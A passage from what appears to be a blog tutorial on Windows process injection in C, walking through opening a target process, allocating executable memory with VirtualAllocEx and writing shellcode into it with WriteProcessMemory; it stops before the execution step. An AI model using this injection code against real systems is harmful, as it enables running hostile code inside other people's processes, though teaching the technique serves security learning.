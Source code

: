 Let's start with some house cleaning for the application.

```c
  if (argc < 2) {
    WARN("Usage: application.exe <PID>");
    return EXIT_FAILURE;
  }
```
This code can be added to Position 2 in the template. It outputs a message if we forget to provide the `PID` of the process to inject into. Basically, the application always expects 2 arguments: the first argument is the application itself, while the second argument is the Process ID where we want to inject. Since we have set up the word macro, I always like some feedback from the program on which step it is and what it's doing. All these statements are optional, of course, but they make the blog and explanation much easier to read.


```c
  PID = atoi(argv[1]);
  INFO("trying to open a handle to process (%ld)", PID);

  /* Open a handle to the process */
  hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, PID);
  INFO("got a handle to the process!!\n\\---0x%p", hProcess);

  if (hProcess == NULL) {
    WARN("couldn't get a handle to process (%ld), error: %ld", PID, GetLastError());
    return EXIT_FAILURE;
  }
```

The above code is for Position 3. It declares the variable `PID` and assigns it the value of the second argument. We then try to open the process to get a handle using the `hProcess` variable and the `OpenProcess` function. The `OpenProcess` function accepts several attributes that you can specify.


```c
  /* Allocate bytes to process memory */
  rBuffer = VirtualAllocEx(hProcess, NULL, sizeof(abysscalc), (MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);
  INFO("allocated %zu bytes with PAGE_EXECUTE_READWRITE permissions", sizeof(abysscalc));
```

Next, we can start working on allocating the bytes defined in `rBuffer` using the `VirtualAllocEx` function to reserve some space in the process memory to later execute the shellcode. We determine the size needed with the attribute `sizeof(abysscalc)`. The code above can be added to Position 4.

Now that we have allocated the bytes needed to store our shellcode in memory, it's time to actually write those bytes to that memory.


```c
  /* write bytes to allocated memory for processing */
  WriteProcessMemory(hProcess, rBuffer, abysscalc, sizeof(abysscalc), NULL);
  INFO("written %zu bytes to process memory", sizeof(abysscalc));
```

The attributes you see behind the `WriteProcessMemory` function are pretty self-explanatory, but unfortunately, that is definitely not always the case. Just remember that usually your IDE gives you a popup box showing what attributes a specific function needs. Also, referring to the Win32 API link above helps tremendously. The above code goes in Position 5 of the template.
